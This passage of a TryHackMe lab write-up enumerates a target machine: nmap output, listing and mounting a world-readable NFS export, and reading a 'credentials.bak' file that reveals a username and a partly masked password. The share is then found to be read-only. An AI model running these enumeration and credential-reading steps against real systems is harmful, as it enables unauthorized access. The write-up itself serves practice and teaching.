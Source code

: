 ```console
8080/tcp  open  http     Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-title: CCHQ
35505/tcp open  mountd   1-3 (RPC #100005)
46689/tcp open  nlockmgr 1-4 (RPC #100021)
52461/tcp open  mountd   1-3 (RPC #100005)
57609/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 16 19:19:45 2021 -- 1 IP address (1 host up) scanned in 32.57 seconds
```

# Enumerating NFS Share on Port 2049
## Listing NFS Share
```console
reddevil@ubuntu:~/Documents/tryhackme/coconutadventures$ showmount -e 10.10.67.80
Export list for 10.10.67.80:
/var/nfs/general *
```

## Mounting the share
```console
reddevil@ubuntu:~/Documents/tryhackme/coconutadventures$ sudo mount -t nfs 10.10.67.80:/var/nfs/general mnt
```

## Listing the content of the Share
```console
reddevil@ubuntu:~/Documents/tryhackme/coconutadventures$ ls -la mnt
total 12
drwxr-xr-x 2 nobody   nogroup  4096 Nov 22 00:09 .
drwxrwxr-x 4 reddevil reddevil 4096 Apr 16 19:22 ..
-rw-r--r-- 1 root     root       31 Nov 22 00:09 credentials.bak
```

## Content of credentials.bak
```console
reddevil@ubuntu:~/Documents/tryhackme/coconutadventures$ cat mnt/credentials.bak 
paradoxial.test
Shi*******79
```

## Trying to write a file
```console
reddevil@ubuntu:~/Documents/tryhackme/coconutadventures$ touch mnt/test
touch: cannot touch 'mnt/test': Read-only file system
```
The Share is read only. So, we can not create a new file on the share.
